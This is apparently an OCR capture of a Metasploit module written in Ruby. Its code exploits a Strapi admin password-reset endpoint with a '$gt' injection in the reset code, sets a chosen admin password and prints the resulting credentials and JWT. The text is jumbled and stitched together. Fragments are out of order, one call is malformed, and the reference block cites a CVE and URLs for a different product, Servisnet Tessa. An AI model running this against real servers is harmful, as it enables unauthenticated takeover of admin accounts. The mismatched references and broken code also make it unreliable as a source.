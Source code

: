   ))

  register_options [
    OptString.new('NEW_PASSWORD', [true, 'New password for user Admin'])
  ]
res = send_request_raw({ 'uri' => '/admin/init' })
version = JSON.parse(res.body)

if version["data"]["strapiVersion"] == '3.0.0-beta.17.4'
  return Exploit::CheckCode::Vulnerable
else
  return Exploit::CheckCode::Safe
end
json_body = { 'code' => {'$gt' => 0},
  'password' => datastore['NEW_PASSWORD'],
  'passwordConfirmation' => datastore['NEW_PASSWORD'] }

res = send_request_cgi({
  'method' => 'POST',
  'uri' => '/admin/auth/reset-password',
  'ctype' => 'application/json',
  'data' => JSON.generate(json_body)
})

print_status("Changing password...")
json_format = JSON.parse(res.body)
jwt = json_format['jwt']

if res.code == 200
  print_good("Password changed successfully!")
  print_good("USER: admin")
  print_good("PASSWORD: #{datastore['NEW_PASSWORD']}")
  print_good("JWT: #{jwt}")
else
  fail_with(Failure::NoAccess"Could not change admin user password")
end
  ),
  'References'     =>
    [
      [ 'CVE', 'CVE-2022-22831' ],
      [ 'URL', 'https://www.pentest.com.tr/exploits/Servisnet-Tessa-Add-sysAdmin-User-Unauthenticated.html' ],
      [ 'URL', 'http://www.servisnet.com.tr/en/page/products' ]
    ],
  'Author'         =>
    [
      'Özkan Mustafa AKKUŞ <AkkuS>' # Discovery & PoC & MSF Module @ehakkus
    ],
  'License'        => MSF_LICENSE,
  'DisclosureDate' => "Dec 22 2021",
  'DefaultOptions' =>
    {
      'RPORT' => 443,
      'SSL'   => true
    }
))
